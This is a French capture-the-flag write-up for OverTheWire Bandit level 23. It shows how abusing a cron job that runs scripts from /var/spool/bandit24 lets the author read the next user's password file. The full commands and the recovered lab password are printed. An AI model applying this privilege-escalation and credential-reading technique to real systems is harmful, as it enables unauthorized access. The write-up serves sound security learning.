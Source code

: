 ## Over-The-Wire -writeup-
### Bandit23 (bandit23@bandit.labs.overthewire.org)

---
#### Etape 1

Une tache est encore automatisée par **conf**, dans `/etc/cron.d/`. Suprise, le fichier cron s'appelle: **cronjob_bandit24**. Regardons son contenu:

```console
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Il exécute chaque minute le script `/usr/bin/cronjob_bandit24.sh`. Alors examinons le aussi !

```console
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```

Le script va dans le répertoire `/var/spool/bandit24` car la variable `myname` prend la valeur `bandit24`.  
*Car la tâche **cron** est éxécutée par *bandit24*, voir plus haut !*

Ensuite, comme le dit la ligne *echo*, le script exécute chaque scripts dans le dossier en question, puis les supprimes.

---
#### Etape 2

Il va falloit créer un script dans `/var/spool/bandit24`, qui du coup sera exécuté avec les privilèges de **bandit24**, nous permettant de récupérer son mot de passe.  
On se place dans un dossier temporaire, et on **crée notre script** ainsi qu'un fichier vide qui recevra le mot de passe:
`touch script.sh`
`touch outputPass`

---
#### Etape 3

Création du script:

```console
bandit23@bandit:/tmp/visages$ printf '#!/bin/bash\n\ncat /etc/bandit_pass/bandit24 >> /tmp/visages/output' > script.sh
```

*NB: La fin de la commande `> script.sh` insère la commande de *echo* dans le fichier `script.sh`
Voila à quoi le script ressemble *(puisque tout est sur une ligne, et qu'on a rajouté des **\n** qui saute des lignes)*:
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/visages/output
```

La tâche automatique va exécuter tout les scripts sous `var/spool/bandit24` en tant que **bandit24**.  
Notre script demandera alors d'afficher le mot de passe de **bandit24**, et de le rediriger dans notre fichier /tmp/visages/**output** !

---
#### Etape 4

Maintenant il faut **rendre notre script, et notre fichier output exécutables !**. Sinon **bandit24** ne pourra pas exécuter / écrire dans nos fihchiers.  
Pour cela, on utilise `chmod`:

```console
bandit23@bandit:/tmp/visages$ chmod 777 script.sh 
bandit23@bandit:/tmp/visages$ chmod 666 output
```

---
#### Etape 5

Copier notre script dans `/var/spool/bandit24/` pour qu'il soit exécuté.
> bandit23@bandit:/tmp/visages$ cp script.sh /var/spool/bandit24/

On attend moins d'une minute, et tada !

```console
bandit23@bandit:/tmp/visages$ cat output 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

---
Mot de passe: **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**

[<< bandit22.md](bandit22.md) | bandit23.md | [bandit24.md >>](bandit24.md)
